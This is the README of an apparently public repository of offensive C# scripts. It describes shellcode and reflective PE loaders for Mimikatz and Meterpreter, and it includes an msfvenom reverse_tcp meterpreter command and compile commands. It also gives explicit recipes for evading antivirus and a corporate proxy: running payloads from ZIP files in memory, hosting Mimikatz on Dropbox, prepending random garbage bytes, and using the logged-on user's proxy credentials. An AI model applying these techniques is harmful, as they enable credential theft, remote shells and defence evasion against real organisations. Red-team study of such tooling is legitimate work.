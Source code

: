 C# Scripts
============

Author: Arno0x0x - [@Arno0x0x](https://twitter.com/Arno0x0x)

This repository aims at publishing some of my C# scripts. Some are just forked/inspired from other scripts I found there and there, and I adapted to fit my needs or just to learn and improve.

Decrypt via brute force (bf), then load and execute, an xor encrypted shellcode
----------------

**bfDecryptShellcode.cs**

This script is a little dumb and probably not very useful PoC of a brute force decrypting of a multibyte XOR encrypted shellcode. Once the shellcode is decrypted, it is loaded into memory and executed.

The multibyte XOR encrypted shellcode can be obtained by generating a metasploit raw payload, and then encrypt it with the shellcode_encoder.py script available here: [ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper).


Dynamically load and parse a .Net assembly
----------------

**parseAssembly.cs**

This console application will dynamically load a .Net assembly (exe or dll), either from a local file or downloaded from a URL, optionnaly base64 encoded. Once loaded, it will enumerate it's types, method and properties.
Examples:
`parseAssembly.exe myAssembly.dll`
or
`parseAssembly.exe http://some.site.com/myAssembly base64`


Playing with PE and Shellcode reflective injection
----------------
This is a collection of scripts adapted from Casey Smith's ([@subTee](https://twitter.com/subTee)) work on reflectively inject PE or shellcode into the calling process, from various sources.

**peloader.cs**

This scripts loads a base64 encoded **x64** PE file (*for example: Mimikatz or a Meterpreter*) into the process's memory and reflectively executes it. The PE is passed as a base64 string variable at the beginning of the file (yes, it's hardcoded).

You can generate this base64 encoded string from any file using the following \*nix command line:
```
root@kali:~# base64 -w 0 mimikatz.exe > mimikatz.b64
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:peloader.exe peloader.cs
```

**shellcodelauncher.cs**

This script executes a shellcode into the process's memory and reflectively executes it. The shellcode is passed as an array of bytes in a variable. You can get the proper code for this array automatically generated for you with Metasloit's msfvenom utility. For example, to generate a reverse_tcp meterpreter shellcode:

```
root@kali:~# msfvenom -a x86_64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f csharp
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shellcodeLauncher.exe shellcodeLauncher.cs
```

**runfromzipinmemory.cs**

This script is heavily and shamefully based, inspired, derived from Casey Smith (@subTee) work on Netkatz.

I found out that the local antivirus (*McAfee*) on my corporate workstation is configured to *NOT* analyze the content of a ZIP file, probably on the assumption that whenever this content is to be read or executed it would normally first be extracted somewhere on the disk, and any bad stuff in it would get caught by the AV at that time.

What this script does is loading everything in memory and work only from there, also using reflection to execute a PE from the calling process memory.

So not only the AV doesn't bark at all, but from a forensic perspective, the only "visibly running process" looks perfectly innocent.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /reference:System.IO.Compression.dll /out:runfromzipinmemory.exe runfromzipinmemory.cs
```

You can then execute:
```
unfromzipinmemory.exe <zip_file> <exe_from_zip_file_to_be_executed>
```

**netPEloader.cs**

This script is heavily based and inspired from Casey Smith (@subTee) work on Netkatz.

Netkatz is a fantastic PoC of loading the latest mimikatz release from GitHub and execute if straight in memory. However, I faced three problems in my environment:

1. The connection to the internet has to be made through a corporate proxy requiring NTLM authentication (*Windows SSO is OK*)
2. The github page of Mimikatz is blocked by the corporate proxy due to website categorization
3. The mimikatz_trunked.zip file is being detected by the proxy AV (*yes, with SSL inspection turned on at the proxy level*)

So I modified the original netkatz script to address these 3 issues:

1. Added system proxy and default credentials support (*currently logged on Windows user*)
2. Hosting the PE on a non blocked web site, innocent looking like www.dropbox.com
3. As per making the PE undetectable by AV, we could go throuth various obfuscation methods like encrypting, specific encoding, but I like the simple technique of adding 65536 random garbage bytes at the beginning of the real x64 Mimikatz PE:
	- dd if=/dev/urandom of=garbage bs=65536 count=1
	- cat garbage mimikatz.exe > mimiHidden
	- Upload mimiHidden to dropbox and share it	

The URL from where to download the hidden PE is hardcoded in the script.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:netPEloader.exe netPEloader.cs
```